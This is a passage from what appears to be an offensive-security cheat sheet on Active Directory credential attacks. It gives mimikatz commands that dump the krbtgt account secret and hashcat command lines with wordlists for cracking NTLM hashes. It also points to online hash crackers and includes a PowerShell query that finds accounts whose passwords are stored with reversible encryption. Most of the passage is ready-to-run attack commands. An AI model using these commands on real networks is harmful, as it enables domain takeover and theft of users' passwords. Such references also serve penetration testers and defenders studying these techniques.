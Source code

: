 ```powershell
sekurlsa::krbtgt
lsadump::lsa /inject /name:krbtgt
```

### Crack NTLM hashes with hashcat

Useful when you want to have the clear text password or when you need to make stats about weak passwords.

Recommended wordlists:

- [Rockyou.txt](https://weakpass.com/wordlist/90)
- [Have I Been Pwned founds](https://hashmob.net/hashlists/info/4169-Have%20I%20been%20Pwned%20V8%20%28NTLM%29 "https://hashmob.net/hashlists/info/4169-Have%20I%20been%20Pwned%20V8%20(NTLM)")
- [Weakpass.com](https://weakpass.com/)
- Read More at [Methodology and Resources/Hash Cracking.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Hash%20Cracking.md)

```powershell
# Basic wordlist
# (-O) will Optimize for 32 characters or less passwords
# (-w 4) will set the workload to "Insane" 
$ hashcat64.exe -m 1000 -w 4 -O -a 0 -o pathtopotfile pathtohashes pathtodico -r myrules.rule --opencl-device-types 1,2

# Generate a custom mask based on a wordlist
$ git clone https://github.com/iphelix/pack/blob/master/README
$ python2 statsgen.py ../hashcat.potfile -o hashcat.mask
$ python2 maskgen.py hashcat.mask --targettime 3600 --optindex -q -o hashcat_1H.hcmask
```

:warning: If the password is not a confidential data (challenges/ctf), you can use online "cracker" like :

- [hashmob.net](https://hashmob.net)
- [crackstation.net](https://crackstation.net)
- [hashes.com](https://hashes.com/en/decrypt/hash)

### NTDS Reversible Encryption

`UF_ENCRYPTED_TEXT_PASSWORD_ALLOWED` ([0x00000080](http://www.selfadsi.org/ads-attributes/user-userAccountControl.htm)), if this bit is set, the password for this user stored encrypted in the directory - but in a reversible form.

The key used to both encrypt and decrypt is the SYSKEY, which is stored in the registry and can be extracted by a domain admin.
This means the hashes can be trivially reversed to the cleartext values, hence the term “reversible encryption”.

- List users with "Store passwords using reversible encryption" enabled
    
    ```powershell
    Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
    ```
    